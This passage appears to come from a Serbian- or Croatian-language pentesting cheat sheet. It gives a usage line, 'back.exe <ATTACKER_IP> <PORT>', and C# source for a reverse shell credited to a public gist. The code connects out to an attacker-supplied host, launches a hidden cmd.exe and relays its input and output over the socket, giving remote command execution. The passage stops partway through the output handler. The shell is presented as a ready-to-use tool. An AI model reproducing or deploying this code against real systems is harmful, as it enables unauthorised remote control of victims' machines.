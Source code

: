 Koristi ga sa:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
```